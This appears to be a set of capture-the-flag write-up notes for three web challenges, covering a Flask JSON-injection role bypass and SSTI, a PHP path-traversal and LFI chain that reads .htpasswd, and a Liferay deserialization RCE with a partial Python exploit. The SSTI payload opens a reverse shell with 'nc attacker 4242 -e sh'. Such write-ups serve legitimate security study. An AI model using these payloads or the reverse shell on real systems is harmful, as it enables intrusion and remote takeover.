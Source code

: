 ```python
        return jsonify(message="Never heard about that role!")
    
    if username == "" or password == "" or role == "":
        return jsonify(messaage="Lack of input")
    
    if register_db(connection, username, password, role):
        return jsonify(message="User registered successfully."), 201
    else:
        return jsonify(message="Registration failed!"), 400
```
### Exploitation
1. JSON injection
```
POST /register
{"username":"sebb","password":"sebb","role":"adm\ud888in"}
```
2. SSTI
```
POST render
{"template":"{{ self.__init__.__globals__.__builtins__.__import__('os').system('nc attacker 4242 -e sh') }}"}
```
-------------------------------------
# S1mple
#docker #lfi #php #fileupload #access-control
Only a Dockerfile is provided.
1. Download the container locally to read the sources
2. `web.conf` misconfig -> Path traversal `/webcontent-/usr/share/...`
3. in `/usr/share` there's a service that allows to upload file -> upload `exploit.html` containing php code that reads `/.htpasswd`
4. Access `/admin.php%3f`
5. LFI into the admin panel to include `exploit.html` -> read `.htpasswd`
-------------------------------------
# niceray
#deserialization #java #rce
### Road to flag
The flag has a random name in `/` -> RCE
### Exploitation
https://nguyendt.hashnode.dev/lpe-15538

```python
import requests
import os
import base64

URL = "http://ip:8080"

# 1. execution: ls / > /opt/liferay-portal-6.2-ce-ga3/jboss-7.1.1/standalone/deployments/welcome-theme.war/js/main.js
# 2. get flag filename from /js/main.js
# 3. execution: cat FLAG_RANDOM_NAME > /opt/liferay-portal-6.2-ce-ga3/jboss-7.1.1/standalone/deployments/welcome-theme.war/js/main.js
# 4. get the flag from /js/main.js
# Note: /js/main.js gets cached, use a cachebuster
cmd = "ls / > /opt/liferay-portal-6.2-ce-ga3/jboss-7.1.1/standalone/deployments/welcome-theme.war/js/main.js"

```